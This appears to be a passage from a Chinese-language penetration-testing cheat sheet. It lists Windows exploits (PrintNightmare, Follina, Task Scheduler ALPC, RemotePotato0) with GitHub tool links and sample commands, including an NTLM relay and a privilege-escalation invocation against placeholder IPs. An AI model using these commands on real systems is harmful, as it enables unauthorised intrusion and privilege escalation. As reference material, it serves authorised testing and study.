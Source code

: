 方法:

1.

`https://github.com/outflanknl/PrintNightmare`

1.  `PrintNightmare 10.10.10.10 exp.dll`

### **Folina**

域名: Y/N

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.

`https://github.com/JohnHammond/msdt-follina`

1.  `python3 follina.py -c "notepad"`

### **ALPC**

域名: Y/N

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.

`https://github.com/riparino/Task_Scheduler_ALPC`

### **RemotePotato0**

[域名](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=3&q=%E5%9F%9F%E5%90%8D&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiLln5_lkI0iLCJ6aGlkYV9zb3VyY2UiOiJlbnRpdHkiLCJjb250ZW50X2lkIjoyMzY2MjM2MDAsImNvbnRlbnRfdHlwZSI6IkFydGljbGUiLCJtYXRjaF9vcmRlciI6MywiemRfdG9rZW4iOm51bGx9.Q6SOcd4vSt8C8LsdI2lvy7Fn0PY6aeeFwYugod9oOuM&zhida_source=entity): Y/N

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.  `sudo ntlmrelayx.py -t ldap://10.0.0.10 –no-wcf-server –escalate-user normal_user`
2.  `.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1`

  
